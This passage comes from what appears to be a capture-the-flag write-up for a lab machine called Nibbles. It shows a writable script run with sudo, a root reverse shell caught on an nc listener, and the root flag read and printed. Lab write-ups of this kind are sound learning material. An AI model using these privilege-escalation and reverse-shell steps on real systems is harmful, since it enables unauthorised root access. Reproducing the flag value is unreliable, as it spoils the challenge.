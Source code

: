 Execute the script with sudo, using its full path:

```shell-session
 nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo /home/nibbler/personal/stuff/monitor.sh 
```

Catch the root shell on our waiting `nc` listener:

```shell-session
-[Wed Feb 14-11:14:19]-[table@parrot]-
-[~]$ nc -lnvp 8443
listening on [any] 8443 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.75] 41634
# id
uid=0(root) gid=0(root) groups=0(root)

```

Grab root flag:

```
root@Nibbles:/# cd root
cd root
root@Nibbles:~# ls
ls
root.txt
root@Nibbles:~# cat root.txt
cat root.txt
c4e3ffb07d835f8e9e0b892edade5730
```
